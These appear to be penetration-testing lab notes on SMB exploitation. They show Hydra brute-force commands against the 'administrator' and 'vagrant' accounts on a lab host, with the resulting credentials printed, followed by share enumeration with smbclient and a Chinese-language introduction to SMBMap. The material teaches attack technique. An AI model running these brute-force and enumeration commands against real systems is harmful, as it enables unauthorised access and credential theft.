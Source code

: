 To perform a brute force attack with Hydra on SMB:

`-l`: the username we are testing or we are performing the brute force with is the administrator user account.

`-P`: specify the password list or the word list containing the passwords that we would like to use for the brute force.

`smb`: specify the protocol that you are performing the brute force attack on, which in this case is SMB.

```
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.31.252 smb
```

We're able to authenticate successfully with SMB with the administrator user account, and the password is vagrant.

```
[445][smb] host: 10.0.31.252   login: administrator   password: vagrant
```

Now that we've obtained legitimate credentials, we can also test the vagrant user, and let's see whether we're able to authenticate as well, because both of these are Windows accounts.

```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.31.252 smb
```

```
[445][smb] host: 10.0.31.252   login: vagrant   password: vagrant
```

What can we do with these credentials? For one, we can authenticate with the target via RDP because if you remember during the port scanning and enumeration video, we identified that we have RDP running on the target. So we can immediately authenticate with the target via RDP.

However, we are focused on SMB exploitation. We've obtained credentials. The next logical thing would be to enumerate any shares, and enumerating shares can be done without credentials, or if in the case you have legitimate credentials, then you'll be able to obtain a lot more information.

`-L`: List out the shares.

`-U`: authenticate with the user vagrant.

```
smbclient -L 10.0.31.252 -U vagrant
```

We get the shares.

`-u`: authenticate with the user vagrant.

[SMBMap](https://github.com/ShawnDEvans/smbmap)

SMBMap 允许用户枚举整个域中的 samba 共享驱动器。列出共享驱动器、驱动器权限、共享内容、上传/下载功能、文件名自动下载模式匹配，甚至执行远程命令。该工具在设计时考虑到了渗透测试，旨在简化跨大型网络搜索潜在敏感数据的过程。

```
Main arguments:
  -H HOST               IP of host
  -u USERNAME           Username, if omitted null session assumed
  -p PASSWORD           Password or NTLM hash
```
